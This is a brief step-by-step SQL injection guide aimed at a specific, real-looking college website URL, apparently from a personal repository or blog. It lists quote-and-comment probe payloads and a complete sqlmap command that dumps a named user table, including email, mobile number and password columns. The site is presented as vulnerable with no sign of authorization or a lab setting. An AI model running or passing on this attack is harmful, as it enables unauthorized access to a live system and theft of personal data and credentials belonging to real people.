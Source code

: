 By using SQL we will perform sql injection by using following steps:

Steps to preform attack: 


Step1: open the link in the browser 

https://hmmcollege.ac.in/old_site/index.php/Frontend/about_dept?id=1 


Step2: we have to find input parameter 

\     ‘     “     “)     ‘) 

Step3: then we have to fix the query 

‘ --+   “ --+   “) --+  ‘)  --+ 

Step4: then we have to perform the attack 

sqlmap -u "https://hmmcollege.ac.in/old_site/index.php/Frontend/about_dept?id=1*" --batch -
banner --risk=3 --level=3 -D hmmcolle_demo_db -T king_user -C  
name,status,dept_id,email,moblie,password,updated_on,user_id,user_type_id –dump

Here is the report of those website which is vulnerable for sql injection....
